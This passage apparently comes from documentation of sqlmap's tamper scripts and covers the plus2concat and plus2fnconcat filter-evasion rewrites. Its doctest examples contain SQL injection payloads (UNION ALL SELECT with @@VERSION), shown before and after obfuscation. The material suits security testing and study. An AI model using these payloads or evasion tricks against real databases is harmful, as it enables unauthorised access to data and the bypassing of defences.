 ```py
>>> tamper('SELECT FIELD FROM TABLE')
'%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E'
```

### plus2concat.py

> Replaces plus operator ('+') with (MsSQL) function CONCAT() counterpart

用对应的 (MsSQL) 函数 CONCAT() 代替加号运算符('+')。

Tested against:
* Microsoft SQL Server 2012

Requirements:
* Microsoft SQL Server 2012+

```py
>>> tamper('SELECT CHAR(113)+CHAR(114)+CHAR(115) FROM DUAL')
'SELECT CONCAT(CHAR(113),CHAR(114),CHAR(115)) FROM DUAL'

>>> tamper('1 UNION ALL SELECT NULL,NULL,CHAR(113)+CHAR(118)+CHAR(112)+CHAR(112)+CHAR(113)+ISNULL(CAST(@@VERSION AS NVARCHAR(4000)),CHAR(32))+CHAR(113)+CHAR(112)+CHAR(107)+CHAR(112)+CHAR(113)-- qtfe')
'1 UNION ALL SELECT NULL,NULL,CONCAT(CHAR(113),CHAR(118),CHAR(112),CHAR(112),CHAR(113),ISNULL(CAST(@@VERSION AS NVARCHAR(4000)),CHAR(32)),CHAR(113),CHAR(112),CHAR(107),CHAR(112),CHAR(113))-- qtfe'
```

### plus2fnconcat.py

> Replaces plus operator ('+') with (MsSQL) ODBC function {fn CONCAT()} counterpart

Tested against:
* Microsoft SQL Server 2008

Requirements:
* Microsoft SQL Server 2008+

Notes:
* Useful in case ('+') character is filtered
* https://msdn.microsoft.com/en-us/library/bb630290.aspx

```py
>>> tamper('SELECT CHAR(113)+CHAR(114)+CHAR(115) FROM DUAL')
'SELECT {fn CONCAT({fn CONCAT(CHAR(113),CHAR(114))},CHAR(115))} FROM DUAL'

>>> tamper('1 UNION ALL SELECT NULL,NULL,CHAR(113)+CHAR(118)+CHAR(112)+CHAR(112)+CHAR(113)+ISNULL(CAST(@@VERSION AS NVARCHAR(4000)),CHAR(32))+CHAR(113)+CHAR(112)+CHAR(107)+CHAR(112)+CHAR(113)-- qtfe')
'1 UNION ALL SELECT NULL,NULL,{fn CONCAT({fn CONCAT({fn CONCAT({fn CONCAT({fn CONCAT({fn CONCAT({fn CONCAT({fn CONCAT({fn CONCAT({fn CONCAT(CHAR(113),CHAR(118))},CHAR(112))},CHAR(112))},CHAR(113))},ISNULL(CAST(@@VERSION AS NVARCHAR(4000)),CHAR(32)))},CHAR(113))},CHAR(112))},CHAR(107))},CHAR(112))},CHAR(113))}-- qtfe'
```

### randomcase.py
